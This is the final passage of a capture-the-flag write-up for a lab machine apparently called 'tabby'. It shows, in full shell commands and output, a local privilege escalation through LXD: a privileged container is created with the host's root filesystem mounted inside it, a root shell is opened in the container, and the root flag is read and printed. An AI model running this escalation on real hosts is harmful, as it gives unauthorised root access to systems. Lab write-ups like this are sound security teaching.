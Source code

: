 ```shell
|  ALIAS  | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-----------------------------------------+--------------+-----------+--------+------------------------------+
| alpine  | fa5b049986a5 | no     | Alpinelinux 3.12 x86_64 (20201107_1032) | x86_64       | CONTAINER | 2.40MB | Nov 7, 2020 at 10:55am (UTC) |
+---------+--------------+--------+-----------------------------------------+--------------+-----------+--------+------------------------------+
| myimage | eca77d19af30 | no     | alpine v3.12 (20201107_21:30)           | x86_64       | CONTAINER | 3.05MB | Nov 7, 2020 at 4:51pm (UTC)  |
+---------+--------------+--------+-----------------------------------------+--------------+-----------+--------+------------------------------+

ash@tabby:~$ lxc init myimage sidchn -c security.privileged=true
lxc init myimage sidchn -c security.privileged=true
Creating sidchn
ash@tabby:~$ lxc config device add sidchn mydevice disk source=/ path=/mnt/root recursive=true
lxc config device add sidchn mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to sidchn
ash@tabby:~$ lxc start sidchn
lxc start sidchn
ash@tabby:~$ lxc exec sidchn /bin/sh
lxc exec sidchn /bin/sh
~ # whoami
whoami
root
~ # id
id
uid=0(root) gid=0(root)

~ # cd /mnt/root/root
cd /mnt/root/root
/mnt/root/root # cat root.txt
cat root.txt
6ab5823df58c34e18f93b8cccb0d28d7
/mnt/root/root #
```
And that was the box, hope you liked my writeup :D
